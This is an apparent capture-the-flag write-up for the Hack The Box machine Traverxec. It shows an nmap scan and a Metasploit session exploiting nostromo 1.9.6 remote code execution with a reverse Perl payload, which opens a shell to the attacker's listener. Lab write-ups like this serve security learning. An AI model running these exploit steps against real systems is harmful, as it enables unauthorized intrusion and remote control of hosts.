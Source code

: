 # HTB - Traverxec
## OS - Linux

Started with an nmap scan as usual. (IP address: 10.10.10.165)

```
$nmap -sC -sV -oN traverxec.nmap 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 17:06 PST
Nmap scan report for 10.10.10.165
Host is up (0.095s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds


```
The machine is running nostromo v1.9.6 as the web server. When I searched for nostromo, I saw that metasploit has a module for it.

Using msfconsole to use that exploit,

```
msf6 > use exploit/multi/http/nostromo_code_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.25:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.25:4444 -> 10.10.10.165:51758) at 2021-02-21 18:19:58 -0800
```

